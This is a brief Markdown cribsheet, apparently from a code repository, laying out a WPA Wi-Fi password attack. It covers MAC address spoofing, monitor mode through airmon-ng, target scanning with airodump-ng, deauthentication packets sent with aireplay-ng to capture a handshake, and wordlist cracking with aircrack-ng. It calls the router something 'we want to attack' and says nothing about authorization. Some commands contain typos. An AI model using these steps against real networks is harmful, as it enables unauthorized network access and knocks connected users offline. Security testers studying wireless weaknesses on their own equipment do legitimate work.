 # Cribsheet

## Brute force dictionary attack on a wireless network

### Requirements
Kali linux installation
Wireless adapter that can enter monitor mode
Wordlist

### Checking to see if a wireless card can entire monitor mode
In general most wifi cards can enter monitor mode. Monitor mode is when you change the behavoir of the wifi card to listen to all packets not just the ones directed to your machine.

## Steps
1) Setting wifi card to monitor mode...
  1a) ifconfig wlan0 down: This turns of the wireless card ( we want to change our own mac address )
  1b) use macchanger to change to a different mac address
  1c) ifconfig wlan0 up: Turns the wireless card back on
2) airmon-ng: airmon-ng is a tool in aircrack ng that is designed for wifi network security. Airmon ng is used to activate monitor mode on our device
  2a) airmon-ng start wlan0

3) We want to get a wi-fi packet for us to attack. This is important since attacking the actual router with a dictionary attack is slow and time consuming. instead we will copy the handshake and attack the packet that we recieved
  3a) airodump0ng wlan0mon: This will give us the mac address of the router we want to attack
  3b) airodump-ng -c [] --bssid[]: this will allow us to eavsedrop on the network
  3c) aireplay-ng -0 [number-of-packages] -a [BSSID] [] This will send deauthincation packets to a machine connected to the network and allow use to look capture the packet when the device reconnects

4) cracking the packet
  aircrack-ng -a2 -b [BSSID] -w [POSSIBLE_PASSWORDS_FILE.TXT] [PATH_TO_WPA_HANDSHAKE_FILES*.cap]
  
